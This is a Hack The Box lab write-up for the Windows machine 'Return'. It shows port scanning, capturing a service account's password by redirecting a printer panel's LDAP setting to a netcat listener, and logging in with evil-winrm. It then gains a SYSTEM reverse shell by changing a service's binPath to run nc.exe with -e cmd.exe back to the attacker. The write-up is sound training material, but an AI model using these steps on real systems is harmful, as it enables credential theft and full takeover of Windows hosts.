 ```yaml
---
title: "HTB Return"
permalink: /writeups/return
location: default
---
```


# HTB Return

**Machine Information**

	IP : 10.10.11.108
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.11.108 -- -sC -sV
```

This should reveal multiple running services including a `http`, `kerberos`,  `smb` and `ldap`.

```
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-07-04 09:06:35Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack Microsoft Windows RPC
49744/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m34s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 31931/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 22871/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 26260/udp): CLEAN (Timeout)
|   Check 4 (port 37269/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2024-07-04T09:07:32
|_  start_date: N/A
```

### Getting a Foothold

**HTTP**

The `nmap` scan shows that a web server is running on port `80`. Visiting the website shows a printer web page.

<http://10.10.11.108/index.php>

Checking the settings page shows a form with a server address, server port, username, and password field.

<http://10.10.11.108/settings.php>

If we attempt to change the password and inspect the request using Burp Suite it shows that only one parameter, `ip`, is actually sent.

```
ip=printer.return.local
```

To test what this request is actually doing start a `netcat` listener on our attack machine and change the `ip` parameter to our own IP address.

```
nc -nvlp 389
```

Send the request and check the `netcat` listener to see what appears to be a password.

**Evil-WinRM**

Use `evil-winrm` to get a shell on the target machine using the credentials we received.

```
evil-winrm -i 10.10.11.108 -u svc-printer
```

The flag can be retrieved from the following directory:

```
C:\Users\svc-printer\Desktop\user.txt
```

### Privilege Escalation

**Excessive Group Permissions**

After gaining access to the target system we should check the user information.

```
net user svc-printer
```

This shows that our user is part of the "Server Operators" group.

```
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/4/2024 2:25:00 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```

This can potentially be exploited to escalate our privileges as this group has special privileges to make changes in the domain. Check the running services with `services`. This reveals one that we can take advantage of.

```
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                True VMTools
```

**Reverse Shell**

Upload a `nc.exe` binary to the target machine. Use our permissions to change the binary path for `VMTools` with the following command:

```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe 10.10.14.22 9001 -e cmd.exe"
```

Start a new `netcat` listener and use our shell to stop and start `VMTools` to get a shell.

```
sc.exe stop VMTools
sc.exe start VMTools
```

Success!

```
C:\Windows\system32>whoami
nt authority\system
```

The flag can be grabbed from the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
